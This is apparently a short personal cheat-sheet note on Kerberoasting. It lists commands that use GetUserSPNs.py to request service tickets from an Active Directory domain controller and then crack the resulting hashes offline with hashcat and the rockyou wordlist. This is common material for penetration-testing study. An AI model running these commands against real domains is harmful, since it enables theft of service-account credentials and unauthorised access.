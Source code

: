```yaml
---
title: KERBEROASTING
updated: 2023-09-29 05:03:23Z
created: 2023-09-29 05:02:29Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# KERBEROASTING
1. `sudo GetUserSPNs.py DOMAIN.local/user:password -dc-ip <DC IP> -request`
2. Copy hash to **kbt.txt**
3. `hashcat -m 13100 kbt.txt /usr/share/wordlist/rockyou.txt`

